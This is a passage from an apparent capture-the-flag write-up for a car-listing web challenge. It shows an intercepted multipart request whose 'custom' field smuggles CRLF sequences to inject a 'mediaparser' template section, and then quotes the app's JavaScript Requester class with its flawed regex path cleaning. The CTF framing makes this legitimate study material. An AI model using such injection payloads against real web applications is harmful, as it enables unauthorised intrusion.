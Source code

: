 We intercept the `/api/new-car` request and add our custom field:

```
------WebKitFormBoundarySe9IUpOKNRt4WZWB
Content-Disposition: form-data; name="year"

2004
------WebKitFormBoundarySe9IUpOKNRt4WZWB
Content-Disposition: form-data; name="make"

Purrari
------WebKitFormBoundarySe9IUpOKNRt4WZWB
Content-Disposition: form-data; name="model"

F2004
------WebKitFormBoundarySe9IUpOKNRt4WZWB
Content-Disposition: form-data; name="custom"

{"3\r\n\r\nmediaparser\r\n\r\n":"faves", "2":"retrieve", "1":"head_end","4":"footer"}
------WebKitFormBoundarySe9IUpOKNRt4WZWB
Content-Disposition: form-data; name="image"; filename="cat.jpeg"
Content-Type: image/jpeg
```

**Parsing URLs with regex is hard, again:** The last issue we have is that the Requester doesn't work well with mediaparser. It takes our ?F1 parameter value and passes it in this class:
```javascript
class Requester {
    constructor(url) {
        const clean = (path) => {
          try {
            if (!path) throw new Error("no path");
            let re = new RegExp(/^[A-z0-9\s_-]+$/i);
            if (re.test(path)) {
              // normalize
              let cleaned = path.replaceAll(/\s/g, "");
              return cleaned;
            } else {
              throw new Error("regex fail");
            }
          } catch (e) {
            console.log(e);
            return "dfv";
          }
          };
        url = clean(url);
        this.url = new URL(url, 'https://grandprixheaven-web.2024.ctfcompetition.com/api/get-car/');
      }
    makeRequest() {
        return fetch(this.url).then((resp) => {
            if (!resp.ok){
                throw new Error('Error occurred when attempting to retrieve media data');
            }
            return resp;
        });
    }
  }
```
